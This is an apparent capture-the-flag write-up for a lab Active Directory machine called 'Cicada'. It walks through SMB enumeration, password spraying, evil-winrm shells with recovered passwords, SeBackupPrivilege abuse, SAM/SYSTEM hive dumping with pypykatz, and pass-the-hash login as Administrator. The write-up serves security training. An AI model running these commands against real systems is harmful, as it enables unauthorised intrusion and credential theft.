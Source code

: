 # Cicada

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Machine IP Address : 10.10.11.35



### Enumeration Phase

Start with Nmap Scan

```
nmap -Pn -A -p- 10.10.11.35
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This seems to be an Active Directory box.



### Enumerating SMB

I started by enumerating SMB to see what access is available for guest/anonymous users.

```
smbmap -H 10.10.11.35 -u 'anonymous'
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First, I tried accessing each share. Using smbclient, I was able to access the HR share.

```
smbclient \\\\10.10.11.35\\HR -U "anonymous"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"I used the `get` command in smbclient to transfer the 'Notice from HR.txt' file, which revealed a password."

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now that we have a password, let's see if any users are using it.



### Enumerating Users

We try to find domain users by brute-forcing RIDs.

```
nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found several usernames, so I’ll try to validate them using the password we discovered. I put all the usernames in a text file and performed a password spray.

```
nxc smb 10.10.11.35 -u userrr.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We found a user who uses the password: 'michael.wrightson.

Next, I’ll look for a user with higher privileges.

```
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'  --users
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we found a user whose password is stored in the description

Now, I ran `smbmap` to check if this user has access to more shares, and it turns out they do.

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Checked the 'DEV' share and found a PowerShell script called 'Backup\_script.ps1.

"Executed the following commands to access the DEV share:

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
Password for [WORKGROUP\david.orelious]:
```

I listed the contents with the `ls`command , and `get`the Backup\_script.ps1

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Checking its contents revealed a new user, 'emily.oscars,' along with her password!

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Get the Shell

Enumerated the shares with the new user but found nothing, so I tried to get a shell using ‘evil-winrm.

```
evil-winrm -i 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Successfully obtained a shell.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Searched for the user flag in several directories and finally found it in `Desktop/user.txt`.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### PrivEsc

Ran `whoami /priv` to check the user's privileges

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

With this, I realized that ‘SeBackupPrivilege’ can be used to gain read access to any file, including `root.txt`.

I did some more research and found a PowerShell script to access the `root.txt` file

{% embed url="https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1?source=post_page-----83ddcc0db5c7--------------------------------" %}

We start with transfer the script to target computer with our python server running and following command.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Now, I ran the script using the following command to get access to the `root.txt` file

```
Acl-FullControl -user cicada\emily.oscars -path C:\users\administrator\desktop
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Now, I can view the contents of `root.txt`!

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## Other Method

Follow and refer this site to exploit : [Windows Privilege Escalation: SeBackupPrivilege](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)&#x20;

Create or enter a folder where you want to save the files.

First, save the SAM and SYSTEM registry hives using the following commands:

```
reg save HKLM\SAM C:\Users\emily.oscar.CICADA\Videos\sam
reg save HKLM\SYSTEM C:\Users\emily.oscar.CICADA\Videos\system
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Download the files to your local machine, then use `pypykatz` to extract the hashes.

Using this command:

```
pypykatz registry --sam sam system
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With the extracted hash, we can now log in again. Instead of using the password, we'll use the `-H` option to authenticate with the hash.

This allows us to bypass the need for a password and authenticate directly using the hash, providing elevated access.

Using this command:&#x20;

```
evil-winrm -i 10.10.11.35  -u 'Administrator' -H 'hash'
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Logged in as the Administrator using the hash, located the `root.flag` file, and displayed its contents with `cat`. Challenge complete!

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
